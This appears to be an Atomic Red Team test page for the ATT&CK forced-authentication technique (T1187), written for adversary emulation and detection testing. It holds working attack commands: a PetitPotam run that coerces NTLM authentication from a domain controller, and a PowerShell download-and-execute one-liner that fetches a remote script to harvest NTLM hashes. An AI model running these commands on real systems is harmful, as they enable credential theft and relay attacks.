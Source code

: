 # T1187 - Forced Authentication

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1187)

<blockquote>Adversaries may gather credential material by invoking or forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

The Server Message Block (SMB) protocol is commonly used in Windows networks for authentication and communication between systems for access to resources and file sharing. When a Windows system attempts to connect to an SMB resource it will automatically attempt to authenticate and send credential information for the current user to the remote system. (Citation: Wikipedia Server Message Block) This behavior is typical in enterprise environments so that users do not need to enter credentials to access network resources.

Web Distributed Authoring and Versioning (WebDAV) is also typically used by Windows systems as a backup protocol when SMB is blocked or fails. WebDAV is an extension of HTTP and will typically operate over TCP ports 80 and 443. (Citation: Didier Stevens WebDAV Traffic) (Citation: Microsoft Managing WebDAV Security)

Adversaries may take advantage of this behavior to gain access to user account hashes through forced SMB/WebDAV authentication. An adversary can send an attachment to a user through spearphishing that contains a resource link to an external server controlled by the adversary (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)), or place a specially crafted file on navigation path for privileged accounts (e.g. .SCF file placed on desktop) or on a publicly accessible share to be accessed by victim(s). When the user's system accesses the untrusted resource it will attempt authentication and send information, including the user's hashed credentials, over SMB to the adversary controlled server. (Citation: GitHub Hashjacking) With access to the credential hash, an adversary can perform off-line [Brute Force](https://attack.mitre.org/techniques/T1110) cracking to gain access to plaintext credentials. (Citation: Cylance Redirect to SMB)

There are several different ways this can occur. (Citation: Osanda Stealing NetNTLM Hashes) Some specifics from in-the-wild use include:

- A spearphishing attachment containing a document with a resource that is automatically loaded when the document is opened (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)). The document can include, for example, a request similar to <code>file[:]//[remote address]/Normal.dotm</code> to trigger the SMB request. (Citation: US-CERT APT Energy Oct 2017)
- A modified .LNK or .SCF file with the icon filename pointing to an external reference such as <code>\\[remote address]\pic.png</code> that will force the system to load the resource when the icon is rendered to repeatedly gather credentials. (Citation: US-CERT APT Energy Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PetitPotam](#atomic-test-1---petitpotam)

- [Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS](#atomic-test-2---winpwn---powersharppack---retrieving-ntlm-hashes-without-touching-lsass)

<br/>

## Atomic Test #1 - PetitPotam

This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows

**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213

#### Inputs:

| Name            | Description                                                                                 | Type    | Default Value                                                      |
| --------------- | ------------------------------------------------------------------------------------------- | ------- | ------------------------------------------------------------------ |
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string  | 10.0.0.3                                                           |
| targetServerIP  | Computer IP to force authentication from (ex. domain controller)                            | string  | 10.0.0.2                                                           |
| efsApi          | EFS API to use to coerce authentication                                                     | integer | 1                                                                  |
| petitpotam_path | PetitPotam Windows executable                                                               | path    | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PetitPotam.exe |

#### Attack Commands: Run with `powershell`!

```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```

#### Dependencies: Run with `powershell`!

##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).

And the computer must be domain joined (implicit authentication).

##### Check Prereq Commands:

```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS

PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7f06b25c-799e-40f1-89db-999c9cc84317

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Internalmonologue.ps1')
Invoke-Internalmonologue -command "-Downgrade true -impersonate true -restore true"
```

<br/>
